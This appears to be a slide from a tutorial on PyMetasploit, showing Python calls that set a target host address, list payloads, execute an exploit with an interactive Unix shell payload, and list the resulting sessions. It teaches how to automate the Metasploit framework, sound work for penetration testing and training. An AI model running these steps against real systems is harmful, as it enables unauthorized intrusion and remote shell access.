

Using PyMetasploit(3) (cont.)
Set option
exploit[‘RHOST’] = ‘172.168.14.145’

Retrieves a list of viable payloads
exploit.targetpayloads()

Execute exploit.If successful, is job_id is 1 otherwise the job_id is None
exploit.execute(payload=‘cmd/unix/interact’)

Get list of active exploit sessions.
client.sessions.list